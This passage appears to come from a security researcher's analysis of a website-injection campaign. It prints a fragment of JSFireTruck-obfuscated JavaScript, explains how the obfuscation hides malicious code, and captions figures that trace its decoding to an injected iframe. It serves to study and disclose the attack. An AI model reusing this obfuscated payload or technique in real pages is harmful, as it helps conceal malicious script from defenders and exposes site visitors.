 ```js
)[!+[]+!+[]+!+[]]]()+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([![]]+[][[]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]](([][(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(![]+[+[]])[([![]]+[][[]])[+!+[]+[+[]]]+(!![]+[])[+[]]+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]]()[+!+[]+[+[]]]+![]+(![]+[+[]])[([![]]+[][[]])[+!+[]+[+[]]]+(!![]+[])[+[]]+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]]()[+!+[]+[+[]]])()[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[+[]])[([![]]+[][[]])[+!+[]+[+[]]]+(!![]+[])[+[]]+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]]()[+!+[]+[+[]]])+[])[+!+[]])+([]+[])[(![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]()[+!+[]+[!+[]+!+[]]])())()
```

**Mechanism:** JSFireTruck leverages JavaScript's type coercion capabilities, which automatically convert these limited symbols into the full range of ASCII characters or numeric values required for standard, unobfuscated JavaScript code.

**Primary Purpose:**
The main goal of this obfuscation is to **conceal the true functionality** of the malicious code. This makes the script appear as non-functional data, significantly hindering analysis by security researchers and automated detection tools.

![Figure 1. Example of malicious injected JavaScript found in the HTML pages](/cs_cs/figure1.png)

**Figure 1.** Example of malicious injected JavaScript found in the HTML pages.


![Figure 2. Example of injected code starting from the `String.fromCharCode` function, adding another obfuscation layer.](/cs_cs/figure2.png)
**Figure 2.** Example of injected code starting from the `String.fromCharCode` function, adding another obfuscation layer.

![Figure 3. Decoded JSFireTruck script, revealing further obfuscation even after initial decoding.](/cs_cs/figure3.png)  
**Figure 3.** Decoded JSFireTruck script, revealing further obfuscation even after initial decoding.


![Figure 4. Fully decoded JavaScript code showing the iframe structure to be injected into the HTML page.](/cs_cs/figure4.png)  
**Figure 4.** Fully decoded JavaScript code showing the iframe structure to be injected into the HTML page.

## Stage 3: Initial Client-Side Filtering & TDS Hand-off

Once the obfuscated JSFireTruck script executes within the victim's browser, it performs an initial client-side filtering step.
